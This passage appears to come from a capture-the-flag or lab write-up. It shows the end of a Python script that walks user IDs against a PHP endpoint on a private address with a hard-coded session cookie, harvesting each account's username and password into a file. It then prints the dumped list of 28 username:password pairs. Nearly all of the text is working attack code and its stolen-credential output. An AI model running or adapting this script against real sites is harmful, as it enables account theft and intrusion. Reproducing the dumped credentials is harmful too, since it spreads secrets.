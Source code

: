 ```python
    except Exception as e:
        print(f"Error retrieving data for user {user_id}: {e}")
        return None, None

def main():
    url = 'http://10.161.187.177/customer/user.php'				# 你的网址
    cookie = 'PHPSESSID=6dgcduij04mgkq2kchh71op1hi'             # 你的cookie
    header = {'User-Agent': 'Mozilla/5.0', 'Connection': 'keep-alive', 'Cookie': cookie}

    user_data = []
    for user_id in tqdm(range(1, 29)):
        username, password = get_user_data(url, user_id, header)
        if username and password:
            user_data.append(f"{username.split()[0].lower()}:{password}")

    with open("result.txt", "w") as f:
        f.write("\n".join(user_data))

if __name__ == "__main__":
    main()
```

![image-20240317163303873](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652915.png)

```apl
quick:q27QAO6FeisAAtbW
nick:H01n8X0fiiBhsNbI
andrew:oyS6518WQxGK8rmk
jack:2n5kKKcvumiR7vrz
mike:6G3UCx6aH6UYvJ6m
john:k2I9CR15E9O4G1KI
jane:62D4hqCrjjNCuxOj
frank:w9Y021wsWRdkwuKf
fred:1vC35FcnMfmGsI5c
sandra:fL01z7z8MawnIdAq
bill:vDKZtVfZuaLN8BEB7f
james:iakbmsaEVHhN2XoaXB
donald:wv5awQybZTdvZeMGPb
michelle:wv5awQybZTdvZeMGPb
jeff:Kn4tLAPWDbFK9Zv2
lee:SS2mcbW58a8reLYQ
laura:e8v3JQv3QVA3aNrD
coos:8RMVrdd82n5ymc4Z
neil:STUK2LNwNRU24YZt
teresa:mvQnTzCX9wcNtzbW
krystal:A9n3XMuB9XmFmgr5
juan:DX5cM3yFg6wJgdYb
john:yT9Hy2fhX7VhmEkj
misty:aCSKXmzhHL9XPnqr
lara:GUFTV4ERd7QAexxw
james:fMYFNFzCRMF6ceKe
dick:w5dWfAqNNLtWVvcW
anna:FVYtCpc8FGVHEBXV
```
